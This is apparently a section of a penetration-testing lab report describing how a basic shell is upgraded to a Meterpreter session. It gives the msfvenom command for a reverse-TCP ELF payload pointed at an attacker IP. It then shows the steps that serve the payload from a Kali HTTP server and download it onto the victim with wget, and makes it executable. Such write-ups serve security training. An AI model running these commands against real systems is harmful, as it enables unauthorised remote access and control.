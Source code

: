 
### Upgrading the Shell with MSFvenom

#### Objective
After obtaining a basic remote shell, the next step was to upgrade it to a more stable and powerful *Meterpreter session* for advanced post-exploitation tasks.

#### Payload Generation
A `linux/x86/meterpreter/reverse_tcp` payload was generated using `msfvenom`, the payload generation tool included in Metasploit. This payload is a small executable designed to connect back to our machine.
```Bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf -o shell.elf
```

- `LHOST`: The IP address of the attacking machine (Kali).    
- `LPORT`: The port on which the listener will be set up.    
- `-f elf`: Specifies the output format as an ELF executable, compatible with Linux systems.    
- `-o shell.elf`: Defines the output file name for the payload.
    

#### Payload Transfer to Victim
To get the payload onto the victim machine, a simple Python HTTP server was started on the Kali machine. From the victim's `/tmp` directory (a writable location), the payload was downloaded using `wget`.
```Bash
# On Kali: Start a simple HTTP server in the same directory as the payload
python3 -m http.server 8000

# On the victim machine: Change to a temporary directory and download the payload
cd /tmp 
wget http://192.168.0.21:8000/shell.elf 
# Make the downloaded file executable
chmod +x shell.elf
```

![System acces granted](/assets/images/posts/atrium-report/reverseshell1.png )
